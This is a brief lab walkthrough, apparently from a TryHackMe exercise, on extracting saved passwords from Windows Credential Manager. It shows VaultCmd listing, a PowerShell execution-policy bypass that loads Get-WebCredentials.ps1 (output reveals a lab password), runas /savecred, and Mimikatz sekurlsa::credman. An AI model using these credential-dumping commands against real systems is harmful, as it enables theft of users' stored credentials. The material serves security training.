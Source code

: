 # Windows Credential Manager

Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, 
and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four 
credential categories:

* Web credentials contain authentication details stored in Internet browsers or other applications.
* Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
* Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
* Certificate-based credentials: Authenticated details based on certifications.

Note that authentication details are stored on the user's folder and are not shared among Windows user accounts. 
And, they are cached in memory.

Listing the Available Credentials from the Credentials Manager:

    C:\Users\Administrator>VaultCmd /list

To check for any stored credentials in the Web Credentials vault:

    C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"

To list more information about the stored credentials:

    C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"

## Credential Dumping

The VaultCmd is not able to show the password. Use `Get-WebCredentials.ps1`:

```text
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red E4syPassw0rd {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

## RunAs

    C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe

## Mimikatz

To dump clear-text passwords stored in the Credential Manager from memory:

```text
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

